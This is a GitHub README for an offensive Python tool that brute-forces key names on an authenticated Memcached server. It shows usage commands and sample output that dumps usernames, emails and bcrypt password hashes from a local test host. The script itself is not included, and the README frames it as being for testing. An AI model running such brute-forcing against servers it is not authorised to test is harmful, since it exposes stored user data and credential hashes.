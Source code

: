 # Authenticated Memcached Keys Brute-force Script

Script is used to Bruteforce Keys Memcached service supporting Binary Protocol 

Expected outcome: Discover Keys and there Values stored inside Memcached service

Intended only for educational and testing in corporate environments.

This Script was tested on Python 3.8.6

### Usage

```shell
cfx:  ~/Memcached_bruteforce 
→ ./keys_brute.py -h
usage: keys_brute.py [-h] [-l HOST] [-u USERNAME] [-p PASSWORD] [-w WORDLIST]

Authenticated Memcached Key Bruteforce Script by ColdFusionX

optional arguments:
  -h, --help            show this help message and exit
  -l HOST, --host HOST  Connection to Host -> IP:PORT (Example: 127.0.0.1:11211)
  -u USERNAME, --username USERNAME
                        Username
  -p PASSWORD, --password PASSWORD
                        Password
  -w WORDLIST, --wordlist WORDLIST
                        Bruteforce Dictionary

Script Usage : 
./keys_brute.py -l 127.0.0.1:11211 -u username -p password -w wordlist.txt

```
- Make sure Python3 is installed with following additional modules:

### Additional required Python modules :
- bmemcached
- pwn

Installation:
```shell
pip3 install pwn
pip3 install python-binary-memcached
```
### Proof of Concept :

This exploit expects four user inputs :
- **Host** - Connection to Host -> IP:PORT (Example: 127.0.0.1:11211)
- **Username** - Memcached Username
- **Password** - Memcached Password
- **Wordlist** - Dictionary for Bruteforce

#### Expected Output :

```shell
cfx:  ~/Memcached_bruteforce
→ ./keys_brute.py -l 127.0.0.1:11211 -u cold -p fusionx -w dictionary.txt

[*] Initiating Keys Bruteforce

[*] Key -> username
[+] Magnus
    Shockwave
    Optimus

[*] Key -> email
[+] Magnus@autobots.cy
    Shockwave@decepticons.cy
    Optimus@prime.cy

[*] Key -> password
[+] $2y$12$Vz8Z4adaLo3uKGaLpHa0IeuER15KtM0hAZuNy06OzCfThUD0gaFES
    $2y$12$2nmCPrn67.GdgjjBgE1q1.Y6B2sXICIHy3wTpib3O9OIQyfr/j/LO
    $2y$12$Gmiv7J69Xkh4ObQKhCbQ9uV6IWEvsAoMRp.kLzkrV8NO.WLT.ooUq 

```

### Reference

https://pypi.org/project/python-binary-memcached/

https://github.com/memcached/memcached/wiki/BinaryProtocolRevamped





